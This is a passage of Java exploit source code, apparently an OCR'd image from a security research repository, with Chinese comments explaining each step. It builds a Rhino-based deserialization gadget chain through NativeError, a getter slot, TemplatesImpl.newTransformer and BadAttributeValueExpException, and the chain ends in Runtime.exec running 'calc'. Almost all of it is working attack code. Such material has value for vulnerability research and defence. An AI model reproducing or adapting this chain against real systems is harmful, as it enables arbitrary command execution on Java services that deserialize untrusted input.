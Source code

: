 ```bash

        //使getPrototype()返回的是NativeJavaObject对象
        Field prototypeObject= ScriptableObject.class.getDeclaredField("prototypeObject");
        prototypeObject.setAccessible(true);
        prototypeObject.set(NativeError,nativeJavaObject);

        //赋值NativeJavaMethod中的methods数组,使Memberbox中的method是newTransformer()
        Method templatesMethod=TemplatesImpl.class.getDeclaredMethod("newTransformer");
        templatesMethod.setAccessible(true);
        NativeJavaMethod nativeJavaMethod=new NativeJavaMethod(templatesMethod,"test");


        //实例化一个Slot对象,并放入NativeError中，比较难理解
        Method getSlot = ScriptableObject.class.getDeclaredMethod("getSlot", String.class, int.class, int.class);
        getSlot.setAccessible(true);
        Object slotObject = getSlot.invoke(NativeError, "name", 0, 4);

        //使getter获取到的getterObj是nativeJavaMethod,触发Function中的call()
        Class<?> GetterObj=Class.forName("org.mozilla.javascript.ScriptableObject$GetterSlot");
        Field getter=GetterObj.getDeclaredField("getter");
        getter.setAccessible(true);
        getter.set(slotObject,nativeJavaMethod);


        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException("test");
        Field  valField  = badAttributeValueExpException.getClass().getDeclaredField("val");
        valField.setAccessible(true);
        valField.set(badAttributeValueExpException, NativeError);
        String result=serialize(badAttributeValueExpException);
        unserialize(result);


    }
    public static String serialize(Object object) throws IOException {
        ByteArrayOutputStream byteArrayOutputStream=new ByteArrayOutputStream();
        ObjectOutputStream outputStream=new ObjectOutputStream(byteArrayOutputStream);
        outputStream.writeObject(object);
        outputStream.close();
        return Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());
    }
    public static  void unserialize(String s) throws IOException, ClassNotFoundException {
        byte[] result= Base64.getDecoder().decode(s);
        ByteArrayInputStream byteArrayInputStream=new ByteArrayInputStream(result);
        ObjectInputStream objectInputStream=new ObjectInputStream(byteArrayInputStream);
        objectInputStream.readObject();
    }

    private static void setFieldValue(Object obj, String field, Object arg) throws Exception{
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj, arg);
    }
    public static byte[] getTemplates() throws CannotCompileException, NotFoundException, IOException {
        ClassPool classPool=ClassPool.getDefault();
        CtClass ctClass=classPool.makeClass("Test");
        ctClass.setSuperclass(classPool.get("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet"));
        String block = "Runtime.getRuntime().exec(\"calc\");";
        ctClass.makeClassInitializer().insertBefore(block);
        return ctClass.toBytecode();
```